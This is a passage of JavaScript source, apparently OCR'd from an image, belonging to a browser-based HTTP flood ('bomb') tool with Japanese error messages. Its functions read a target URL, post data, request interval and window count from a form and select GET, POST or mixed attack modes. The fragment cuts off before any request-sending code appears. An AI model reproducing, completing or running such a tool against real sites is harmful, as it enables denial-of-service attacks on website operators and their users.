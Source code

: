 		}
		if(http_method==1) {
			attackmode="HTTP_GET/POST"
            MODE = 4;
			modeselect(4);
		} else if(http_method==2) {
			attackmode="HTTP_GET"
            MODE = 5;
			modeselect(5);
		} else if(http_method==3) {
			attackmode="HTTP_POST"
            MODE = 6;
			modeselect(6);
		} else {
			alert("[エラー] 使用するHttp Requestの種類を選択してください。");
		}
	}

    function main_fetch()
	{
		m_inInterval = document.m_form1.m_tbInterval.value;
		m_inWinNum = document.m_form1.m_tbWinNum.value;
		m_stBomburl = document.m_form1.m_tbUrl.value;
		postdata_from_user = document.m_form1.postdata_from_user.value;
		http_method = document.m_form1.SELECT.value;
		m_inCount = 0;
		wildcard_detect(postdata_from_user, m_stBomburl);
		if(IsUrlVaild==0 || IsPostdataVaild==0) {
			return false;
		} else {
			
		}
		if(http_method==1) {
			attackmode="HTTP_GET/POST"
            MODE = 7;
			modeselect(7);
		} else if(http_method==2) {
			attackmode="HTTP_GET"
            MODE = 8;
			modeselect(8);
		} else if(http_method==3) {
			attackmode="HTTP_POST"
            MODE = 9;
			modeselect(9);
		} else {
			alert("[エラー] 使用するHttp Requestの種類を選択してください。");
		}
		
	}
  
function main_img() {
    m_inInterval = document.m_form1.m_tbInterval.value;
		m_inWinNum = document.m_form1.m_tbWinNum.value;
		m_stBomburl = document.m_form1.m_imgUrl.value;
		postdata_from_user = document.m_form1.postdata_from_user.value;
		http_method = document.m_form1.SELECT.value;
		m_inCount = 0;
    wildcard_detect(postdata_from_user, m_stBomburl);
		if(IsUrlVaild==0 || IsPostdataVaild==0) {
			return false;
		} else {
			
